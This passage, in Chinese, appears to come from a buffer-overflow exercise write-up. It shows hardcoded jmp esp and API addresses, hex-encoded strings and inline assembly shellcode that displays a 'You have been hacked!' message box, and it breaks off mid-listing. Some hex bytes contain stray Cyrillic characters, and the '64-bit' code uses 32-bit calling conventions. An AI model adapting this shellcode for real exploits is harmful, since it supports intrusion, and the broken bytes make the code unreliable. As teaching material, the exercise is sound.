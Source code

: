 结果如下：
```
ExitProcess = 0x8cebe3e0
```

**（3）编写汇编代码**
将写汇编之前罗列必要信息： 

information needed:

``` txt
jmp esp:0x1697302b
messageBoxA:0x8cd78b70

ExitProcess:0x8cebe3e0  //不确定是不是，用程序查找到的地址

Waring:
\x57\x61\x72\x6e
\x69\xбe\x67\x20


You have been hacked!(by JWM)
\x59\x6f\x75\x20
\x68\x61\x76\x65
\x20\x62\x65\x65
\xбe\x20\x68\x61
\x63\x6b\x65\x64
\x21\x28\x62\x79
\x20\x4a\x77\x6d
\x29\x20\x20\x20
```

assembly code(64位):

```c
int main()
{
 _asm{
  sub rsp,0x50  //抬高栈帧，80字节
  xor rbx,rbx   //清零，该指令将 ebx 寄存器的值置为零。xor 是按位异或操作，两个相同的值进行异或结果是0。

  push rbx     // 分割字符串，这条指令通常用于分割或标记数据，或者作为占位符。

  push 0x20676e69   // push "Warning"
  push 0x6e726157    
  mov rax,rsp   //用eax存放“Warning”的指针

  push rbx             // 分割字符串  
  push 0x20202029     // push "You have been hacked!(by Jwm)"
  push 0x6d774a20
  push 0x79622821
  push 0x64656b63
  push 0x6168206e
  push 0x65656220
  push 0x65766168
  push 0x20756f59   
  mov rcx,rsp      //用ecx存放该字符串的指针    
  
  push rbx    //MessageBox函数参数依次入栈
  push rax
  push rcx
  push rbx   
  mov rax,0x8cd78b70
  call rax        // call MessageBox

  push rbx  //ExitProcess函数参数入栈
  mov rax, 0x8cebe3e0
```